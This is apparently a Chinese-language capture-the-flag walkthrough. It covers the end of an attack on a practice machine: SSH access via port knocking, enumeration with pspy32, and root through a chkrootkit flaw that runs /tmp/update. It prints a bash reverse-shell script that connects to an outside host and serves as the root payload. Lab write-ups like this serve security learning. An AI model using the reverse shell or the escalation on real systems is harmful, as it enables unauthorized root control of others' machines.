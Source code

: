本地执行敲震，然后直接 ssh 成功获得了 Amrois 用户的权限... 并获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjXNaM52RnCos9PicVoKHmOiceE1eXeTDGtZBU7w38KhBhnGdW05PrUCmQ/640?wx_fmt=png)

在主目录下发现 report 只在 amrois 权限下执行使用... 查看发现了几个过去的文本文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjiclibd8ZGhN5YlFog8t8FWJ18Z4m6rBHwqgHib0magfDeNYzYRoBicxJ4A/640?wx_fmt=png)

随意查看了一个后... 发现里面记录的都是过去执行过的文件过程信息... 这里我需要查看用户执行的进程...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjyX3JQebop69KPS8W3OtGG0epk1dicFJul4IVEqB81owKMF7PGqnZZrg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjbkSNzCb5N0ILTOicy9j1icibKdhqrOA9OQkdVWa5CLKEJvKCXlH0fqqkA/640?wx_fmt=png)

上传了 pspy32 对靶机的进程进行枚举...

可以看到很多 chkrootkit，这是一个工具，它在检查主机是否存在 rootkit 的迹象...

chkrootkit 存在漏洞....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjcJ4fibhdKePupTHfcgVk4sSHibmkZNc1QkpGjbs4a1zYMIXK6lh6Ev0w/640?wx_fmt=png)

本地进行查看... 发现存在可利用漏洞...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjJEoboeaMAtINAJ8Ns9EQhibDtiaYlBOBicTLAm235NtY7fUicOia4QXgyibw/640?wx_fmt=png)

Chkrootkit 将以 root 身份运行任何名为 / tmp/update 的可执行文件，从而可以写入 payload_shell..... 这就简单了直接写即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSj64VcuibZLBq2KYVoun0PY3XFiaUolgarWp2ZpWusWUAm9qyar0ia4iaXRg/640?wx_fmt=png)

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.51/6666 0>&1
```

通过简单的写入 / tmp/update... 然后赋予权限执行... 成功获得了 root 权限... 获得了 root_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/AhUATAqa6tibYa4zTrlvc4l1rFIH7HV8c7ibcicw1jgibbwVW2zia9JeVCleEKLjkT0RO7sJS34DVSzMJ9sGsIAn5Fg/640?wx_fmt=png)

目录爆破 + hydra 密码爆破 + EXP 漏洞利用 + 端口敲震 + SSH_RSA+pspy 枚举 + chkrootkit 漏洞利用等等....

主要还是信息收集.... 信息收集越多，越容易拿下...

加油~~~

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/oQI1m5hhwD5Gicl7xUf6kh3ISTH6iacM05s8G12QVAykGzh7S5Po8EgeS5XJvZbiacbS8AuRQJ1VaRic18jlToOhVQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)
